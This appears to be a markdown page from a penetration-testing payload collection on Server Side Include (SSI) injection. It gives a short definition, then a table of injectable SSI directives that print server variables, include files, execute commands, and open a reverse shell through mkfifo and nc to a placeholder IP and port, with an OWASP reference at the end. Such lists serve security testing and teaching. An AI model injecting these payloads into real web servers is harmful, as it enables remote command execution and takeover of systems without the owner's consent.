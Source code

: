# Server Side Include Injection

> Server Side Includes (SSI) are directives that are placed in HTML pages and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.


## Summary

* [Payloads](#payloads)
* [References](#references)


## Payloads

| Description             | Payload |
|-------------------------|---------|
| Print a date            | `<!--#echo var="DATE_LOCAL" -->` |
| Print all the variables | `<!--#printenv -->` |
| Include a file          | `<!--#include file="includefile.html" -->` |
| Execute commands        | `<!--#exec cmd="ls" -->` |
| Doing a reverse shell   | `<!--#exec cmd="mkfifo /tmp/foo;nc IP PORT 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->` |


## References

* [Server-Side Includes (SSI) Injection - OWASP](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)